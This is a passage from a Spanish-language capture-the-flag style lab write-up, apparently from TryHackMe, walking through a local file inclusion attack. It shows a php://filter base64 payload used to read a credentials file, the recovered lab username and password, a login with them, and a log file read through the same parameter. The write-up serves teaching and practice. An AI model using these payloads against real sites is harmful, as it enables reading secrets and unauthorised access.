    ![image-20211207175349219](..\img\image-20211207175349219.png)

6. Realizo la misma técnica pero con `./includes/creds.php`.

   `https://10-10-240-228.p.thmlabs.com/index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php`

7. Luego de traducirlo obtengo entre otras cosas:

   ```php
   $USER = "McSkidy";
   $PASS = "A0C315Aw3s0m"
   ```

8. Me logeo con la info obtenida.

   ![image-20211207180755179](..\img\image-20211207180755179.png)

9. `https://10-10-240-228.p.thmlabs.com/index.php?err=/app_access.log` para obtenter el nombre del webserver.
